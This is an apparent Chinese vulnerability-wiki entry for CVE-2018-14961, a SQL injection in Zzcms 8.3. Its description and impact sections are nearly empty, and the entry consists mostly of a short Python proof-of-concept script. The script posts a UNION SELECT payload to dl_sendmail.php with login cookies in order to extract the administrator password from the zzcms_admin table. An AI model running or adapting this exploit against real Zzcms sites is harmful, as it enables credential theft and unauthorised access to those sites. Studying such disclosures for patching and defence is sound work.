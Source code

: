 （CVE-2018-14961）Zzcms 8.3 前台sql注入
=======================================

一、漏洞简介
------------

二、漏洞影响
------------

Zzcms 8.3

三、复现过程
------------

    #!/usr/bin/env python
    #Author:Sublime
    #coding:utf-8
    import requests as req

    url = "http://0-sec.org:8080/dl/dl_sendmail.php"
    cookies = {'UserName':'test','PassWord':'81dc9bdb52d04dc20036dbd8313ed055'}
    data = { 'sql':'select email from zzcms_dl where id=-1 union select pass from zzcms_admin #'}

    q = req.post(url,data,cookies=cookies,allow_redirects=False)
    print q.status_code
    print q.content

测试结果为：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-14961)Zzcms8.3前台sql注入/media/rId24.png)

参考链接
--------

> <https://www.anquanke.com/post/id/156660>
